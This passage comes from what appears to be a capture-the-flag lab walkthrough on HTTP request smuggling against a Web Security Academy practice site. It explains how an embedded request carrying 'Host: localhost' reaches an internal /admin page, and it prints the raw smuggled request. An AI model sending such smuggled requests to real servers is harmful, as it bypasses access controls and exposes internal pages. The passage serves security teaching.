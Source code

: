 What we will do is convert the input stream request into the request body, specifying the content length so that it consumes the entire request as the body.

In practice, placing the embedded request into the body and ensuring headers like `Host: localhost` allow the backend to treat it as local/internal will often grant access to internal pages:  
![Second request placed into body illustration](Pasted-image-20251001130225.png)  
![Admin panel access via smuggled request screenshot](Pasted-image-20251001130310.png)

Resulting backend view after smuggling:

```
GET /admin HTTP/1.1
Host: localhost
Content-Type: application/x-www-form-urlencoded
Content-Length: 148

x=POST / HTTP/1.1
Host: 0ad4000f0313b25f8040944c004d00b5.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
